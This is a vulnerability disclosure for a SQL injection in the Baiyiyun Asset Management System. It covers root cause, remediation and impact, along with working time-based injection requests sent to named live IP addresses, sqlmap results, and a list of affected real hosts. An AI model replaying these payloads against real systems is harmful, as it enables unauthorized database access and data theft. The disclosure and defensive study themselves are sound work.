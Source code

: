 # Vulnerability Title
SQL Injection Vulnerability in Baiyiyun Asset Management System `/wuser/anyUserBoundHouse.php` Interface  

---

# Vulnerability Overview
Hunan Zhonghe Baiyi Information Technology Co., Ltd. (referred to as **Baiyiyun**), founded in 2017, is a national high-tech enterprise dedicated to digital solutions in the real estate sector. The company provides comprehensive digital transformation services for residential, commercial, industrial, and public infrastructure sectors, aiming to enhance operational efficiency and reduce costs. The Baiyiyun Asset Management System was found to contain a **SQL injection vulnerability** in the `/wuser/anyUserBoundHouse.php` interface. Attackers can exploit this vulnerability by crafting malicious requests to inject SQL commands, bypassing normal query logic and directly manipulating the database. Successful exploitation may lead to sensitive data leakage (e.g., database names, user credentials) or even remote command execution and data tampering.  

---

# Code Analysis
The root cause lies in the system’s failure to properly sanitize user-supplied input (`huid`) or implement parameterized queries. Key issues include:  

1. **Unfiltered Input Parameters**: The interface directly concatenates the user-controlled `huid` parameter into SQL statements, such as:

```sql
SELECT * FROM table WHERE huid = {user_input}  
```

2. **Dynamic SQL Concatenation**: Attackers can inject malicious payloads like `1 AND (SELECT 6941 FROM (SELECT(SLEEP(2)))OKTO)` to trigger delayed responses (e.g., `SLEEP(2)`), confirming control over the SQL logic.  
3. **Lack of Prepared Statements**: The absence of parameterized queries or ORM frameworks allows input parameters to alter SQL execution flow.

---

# Proof of Concept
## Reproduction Steps and Results
### Case 1: [http://8.142.100.161](http://8.142.100.161)
**POC Request**:  

```http
GET /wuser/anyUserBoundHouse.php?huid=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1  
Host: 8.142.100.161  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)  
Accept-Encoding: gzip, deflate  
Accept: */*  
Connection: close  
```

**Result**: The server response was delayed by 2 seconds (confirmed `SLEEP(2)` execution).  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809213163-ee8b3e1e-327e-4ea4-a3de-aecd729554b7.png)  
**Sqlmap Verification**: Successfully extracted the current database name.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809221942-9b1a84ec-daea-4da7-aa28-6d049b097fd0.png)  

### Case 2: [http://120.76.251.27](http://120.76.251.27)
**POC Request**:  

```http
GET /wuser/anyUserBoundHouse.php?huid=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1  
Host: 120.76.251.27  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)  
Accept-Encoding: gzip, deflate  
Accept: */*  
Connection: close  
```

**Result**: Server response delayed by 2 seconds.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809282483-402d57b0-20d5-440d-9981-82977189fc63.png)  
**Sqlmap Verification**: Database name extracted.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809302030-ff56d64f-2032-47b5-bff0-0db431e56858.png)  

### Case 3: [http://14.18.126.32](http://14.18.126.32)
**POC Request**:  

```http
GET /wuser/anyUserBoundHouse.php?huid=1%20AND%20(SELECT%206941%20FROM%20(SELECT(SLEEP(2)))OKTO) HTTP/1.1  
Host: 14.18.126.32  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0)  
Accept-Encoding: gzip, deflate  
Accept: */*  
Connection: close  
```

**Result**: 2-second delay confirmed.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809339215-bd485930-6117-49d9-9e17-39c4ee8d22ff.png)  
**Sqlmap Output**:  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809345048-5d63263c-7856-474f-bb31-bf4ccfc963ee.png)  

## Asset Verification
**Company Information**:  

+ Name: 湖南众合百易信息技术有限公司
+ English Name: Hunan Zhonghe Baiyi Information Technology Co., Ltd.
+ Official Website: [http://www.baiyishequ.com](http://www.baiyishequ.com)  
+ Email: hongxun@baiyishequ.com

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1739809443083-8e017f5a-f6bc-4a68-ad8f-55fb145babc0.png)  

---

# Impact
1. **Data Leakage**: Attackers can exfiltrate sensitive data (e.g., user credentials, asset details).  
2. **Privilege Escalation**: Potential execution of system commands or file writes, leading to server compromise.  
3. **Business Disruption**: Data tampering or deletion may cause operational downtime and reputational damage.

---

# Remediation Strategies
1. **Parameterized Queries**: Use prepared statements (e.g., PDO or MySQLi) to separate SQL logic from user input.

```php
$stmt = $pdo->prepare("SELECT * FROM table WHERE huid = :huid");  
$stmt->execute(['huid' => $huid]);  
```

2. **Input Validation**: Enforce strict type checking (e.g., integer conversion) or whitelist validation for `huid`.  
3. **Least Database Privileges**: Restrict database account permissions; avoid using high-privilege accounts (e.g., root).  
4. **Web Application Firewall (WAF)**: Deploy WAF to block SQL injection patterns.  
5. **Security Audits**: Conduct regular code reviews and penetration testing using tools like Sqlmap or OWASP ZAP.

---

# Affected Assets
Partial list of impacted IPs/domains:  

+ [http://139.9.121.16](http://139.9.121.16)  
+ [http://139.9.121.16:88](http://139.9.121.16:88)  
+ [http://jd.scvone.net](http://jd.scvone.net)  
+ [http://www.zhenhua-shenzhen.cn](http://www.zhenhua-shenzhen.cn)  
+ [http://8.142.100.161](http://8.142.100.161)  
+ [http://frct2.baiyishequ.com](http://frct2.baiyishequ.com)  
+ [http://14.18.126.32](http://14.18.126.32)  
+ [http://120.76.251.27](http://120.76.251.27)  
+ [https://yd-wy.com](https://yd-wy.com)  
+ [http://sz.scvone.net](http://sz.scvone.net)  
+ [http://booking.cfuturelab.com](http://booking.cfuturelab.com)  
+ [https://csjc.baiyishequ.com](https://csjc.baiyishequ.com)  
+ [http://csjc.scvone.net](http://csjc.scvone.net)  
+ [http://zgce.gdkxwh.cn](http://zgce.gdkxwh.cn)  
+ [http://baiyiyun.dfmd.net.cn](http://baiyiyun.dfmd.net.cn)  
+ [http://yc.scvone.net](http://yc.scvone.net)

